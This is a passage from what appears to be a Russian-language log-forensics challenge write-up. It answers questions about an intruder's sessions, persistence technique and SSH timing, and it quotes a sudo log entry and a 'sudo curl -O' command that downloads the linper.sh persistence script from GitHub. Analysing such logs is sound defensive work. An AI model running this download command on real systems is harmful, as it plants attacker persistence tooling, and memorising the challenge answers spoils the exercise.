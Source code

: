 В логах зафиксировано использование команды `curl` для загрузки скрипта:

```
Oct  6 18:39:38 ip-10-10-14-141 sudo: shadowband : TTY=pts/1 ; PWD=/home/shadowband ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

Полная команда с флагом -O для сохранения файла:

**Ответ:** `sudo curl -O https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

### **Итоговые Ответы**

1. **Номер сеанса злоумышленника для учетной записи пользователя `root`:** `34`
2. **Идентификатор подтехники MITRE ATT&CK, использованный для закрепления:** `T1053.005`
3. **Продолжительность первого сеанса SSH злоумышленника в секундах:** `344`
4. **Команда, которую использовал злоумышленник для загрузки скрипта:** `sudo curl -O https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

